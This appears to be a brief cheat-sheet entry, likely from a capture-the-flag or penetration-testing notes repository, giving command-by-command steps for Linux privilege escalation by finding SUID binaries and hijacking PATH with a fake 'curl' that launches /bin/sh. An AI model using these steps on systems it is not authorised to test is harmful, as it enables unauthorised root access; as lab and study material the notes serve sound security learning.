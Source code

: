  - use `find / -type f -perm -04000 -ls 2>/dev/null` to find binaries with the SUID bit set
 - use strings on the found weird binary `strings <binary_full_path>`
	 - look for any commands inside the binary that don't have the full path specified (e.g. curl)
 - inject a /bin/sh command into fake version of one of the programs listed in the strings step  `echo /bin/sh > curl`
 - change permission on the fake program `chmod 777 curl`
 - export your path to the directory where the fake program is, example:
	 - if your 'curl' program is in the tmp directory use this: `export PATH=/tmp:$PATH`